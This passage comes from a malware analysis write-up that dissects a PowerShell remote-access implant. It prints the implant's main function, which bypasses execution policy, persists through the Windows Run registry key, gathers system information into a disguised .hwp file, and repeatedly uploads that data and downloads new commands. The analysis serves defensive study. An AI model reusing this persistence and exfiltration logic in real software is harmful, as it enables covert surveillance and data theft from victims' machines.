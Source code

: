 From the method name, it can be basically determined that this is a powershell remote control(I’m guessing Empire), which can collect information, file upload, file download, sample persistence and other functions. Now let’s look at the last part which is the main function.

```
function main  
{  
 Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force  
 $FilePath = $env:APPDATA + $LOG\_FILEPATH  
 New-Item -Path $FilePath -Type directory -Force  
 $szLogPath = $FilePath + $LOG\_FILENAME  
 $key = Get-Item -Path $RegKey  
 $exists = $key.GetValueNames() -contains $RegValueName  
 if($exists -eq $False)  
 {  
  $value1 = New-ItemProperty -Path $RegKey -Name $RegValueName -Value $regValue  
  Get\_info $szLogPath  
 }  
   
 while ($true)  
 {  
  FileUploading $szLogPath  
  Start-Sleep -Milliseconds 10000  
  Download  
  Start-Sleep -Milliseconds 10000  
  Start-Sleep -Milliseconds $TIME\_VALUE  
 }  
}  
main
```

Under the main function you can see the path of the log file after the sample is first defined, and then it will determine whether there is a corresponding registry key value, that is, whether it has been set to start automatically after booting. If it returns False, it will add itself to the boot self-start by modifying **‘HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run’** and call the Get\_info function, the parameter is **szLogPath**, which is **‘C:\\Users\\Shyt\\AppData\\Roaming\\flower01\\flower01.hwp’**

So flower01.hwp here is used to save the information collected by the Get\_info function. In Get\_info, several directory information will be written and then systeminfo and the current process will all be written to flower01.hwp. If it returns True, it will enter a forever true loop, call the FileUploading and Download functions in a loop, and sleep for a period of time after the call is completed. In the UploadFunc method, the hex data of flower01.hwp will be read, encrypted by decode and then uploaded to the server. The encryption used by the looks is Caesar Cipher. In essence the main function pushes the persistence, send the data stolen and wait for the new order and reruns after 6 minutes.

![Oledump](https://miro.medium.com/v2/resize:fit:1100/format:webp/0*PRakL4tOLvxO1QqX.PNG "Macro Enabling")

Cyber Kill Chain

### Indicators Of Compromise (IOC)
